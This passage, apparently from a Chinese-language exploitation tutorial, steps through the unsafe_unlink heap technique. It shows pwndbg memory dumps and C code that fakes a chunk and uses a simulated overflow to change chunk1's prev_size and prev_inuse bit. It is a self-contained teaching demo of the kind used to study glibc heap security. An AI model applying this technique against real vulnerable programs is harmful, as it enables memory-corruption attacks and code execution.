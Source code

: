 ```c
pwndbg> x/6gx &chunk0_ptr 
0x555555756020 <chunk0_ptr>:	0x0000555555757260	0x0000000000000000
0x555555756030:	0x0000000000000000	0x0000000000000000
0x555555756040:	0x0000000000000000	0x0000000000000000
pwndbg> x/6gx &chunk1_ptr 
0x7fffffffdd90:	0x0000555555757690	0x0000555555554750
    								#与POC无关
......
pwndbg> 
//未发生变化
```

```c
pwndbg>  x/350gx 0x555555757000
0x555555757000:	0x0000000000000000	0x0000000000000251 #tcache
......
0x555555757250:	0x0000000000000000	0x0000000000000431 #chunk0
0x555555757260:	0x0000000000000000	0x0000000000000000
0x555555757270:	0x0000555555756008	0x0000555555756010
    			#fake_chunk_fd		#fake_chunk_bk
......
0x555555757680:	0x0000000000000000	0x0000000000000431 #chunk1
......
0x555555757ab0:	0x0000000000000000	0x0000000000020551 #top_chunk
......
0x555555757ae0:	0x0000000000000000	0x0000000000000000
pwndbg> 
```

现在我们通过堆溢出漏洞修改chunk1堆块的mchunk_prev_size和mchunk_size：

```c
	printf("We assume that we have an overflow in chunk0 so that we can freely change chunk1 metadata.\n");
	uint64_t *chunk1_hdr = chunk1_ptr - header_size;
	printf("We shrink the size of chunk0 (saved as 'previous_size' in chunk1) so that free will think that chunk0 starts where we placed our fake chunk.\n");
	printf("It's important that our fake chunk begins exactly where the known pointer points and that we shrink the chunk accordingly\n");
	chunk1_hdr[0] = malloc_size;
	printf("If we had 'normally' freed chunk0, chunk1.previous_size would have been 0x90, however this is its new value: %p\n",(void*)chunk1_hdr[0]);
	printf("We mark our fake chunk as free by setting 'previous_in_use' of chunk1 as False.\n\n");
	chunk1_hdr[1] &= ~1;

//pwndbg> p/x chunk1_ptr - header_size
//$1 = 0x555555757680
//pwndbg> 
```

执行结果如下：

```c
pwndbg> x/6gx &chunk0_ptr 
0x555555756020 <chunk0_ptr>:	0x0000555555757260	0x0000000000000000
0x555555756030:	0x0000000000000000	0x0000000000000000
0x555555756040:	0x0000000000000000	0x0000000000000000
pwndbg> x/6gx &chunk1_ptr 
0x7fffffffdd90:	0x0000555555757690	0x0000555555757680
    								#&chunk1_hdr==0x555555757680
    	                 #uint64_t *chunk1_hdr = chunk1_ptr - header_size;
......
pwndbg> 
//未发生变化
```
